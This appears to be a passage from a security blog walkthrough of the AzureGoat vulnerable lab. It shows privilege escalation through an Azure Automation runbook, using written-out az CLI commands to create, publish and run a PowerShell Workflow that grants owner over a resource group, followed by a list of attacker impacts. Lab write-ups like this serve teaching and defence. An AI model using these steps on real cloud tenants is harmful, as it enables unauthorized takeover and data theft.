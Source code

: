 This looks like an attractive vector for any malcious actor, and we will attempt to weaponise this by creating a `PowershellwWorkflow` [runbook](https://learn.microsoft.com/en-us/azure/automation/automation-powershell-workflow) to be executed by the Automation Account, as doing so will allow us to execute commands under the context of `owner` as per the role assignments.

## Abusing Runbooks to Escalate Privileges  
Similar to how we abused Lambda in AWSGoat to escalate our privileges, we will write a Powershellworkflow and save it to the target machine as `escalation.ps1` code before creating, updating, publishing, and finally, running the runbook.  

![escalation_ps1]({{ '/assets/img/posts/azure-attack-vectors/escalation_ps1.jpg' | relative_url }})  

```
az automation runbook create --automation-account-name "dev-automation-account-appazgoatxxxxxx" -g azuregoat_app --name "dev-vm-test" --type "PowerShellWorkflow" --location "East US"
az automation runbook replace-content --automation-account-name dev-automation-account-appazgoatxxxxxx --resource-group azuregoat_app --name dev-vm-test --content @escalation.ps1
az automation runbook publish --automation-account-name dev-automation-account-appazgoatxxxxxx --resource-group azuregoat_app --name dev-vm-test
az automation runbook start --automation-account-name dev-automation-account-appazgoatxxxxxx1 --resource-group azuregoat_app --name dev-vm-test
```
![runbook_replace_publish_start]({{ '/assets/img/posts/azure-attack-vectors/runbook_replace_publish_start.jpg' | relative_url }})  


We can see that we successfuly escalated our role to `owner` over the entire `azuregoat_app` resource group by again running `az role assignment list -g azuregoat_app` and seeing that the principal id of the virtual machine (which we are executing under the context of) now has the owner role assigned.  

![escalation_success]({{ '/assets/img/posts/azure-attack-vectors/escalation_success.jpg' | relative_url }})  

_So, why is this a big deal? And why do we care that someone has just taken ownership of one our resource groups?_  

**Well, why don't we ask ChatGPT (lol)**  

Having owner-level permissions on a resource group in Azure is highly dangerous and opens up the potential for multiple attacks. With this level of access, an attacker could:

### 1. Steal or manipulate sensitive data stored in the resource group:  
Example: An attacker gains owner-level permissions on a resource group containing a database storing personal information of customers. The attacker could access and potentially exfiltrate this sensitive information, leading to a data breach.  

### 2. Modify the configuration of resources within the group, potentially leading to service disruptions or outages:  
Example: An attacker gains owner-level permissions on a resource group containing multiple virtual machines and storage accounts used for a company's e-commerce website. The attacker could modify the configuration of these resources, causing the website to become unavailable and resulting in significant downtime for the company.  
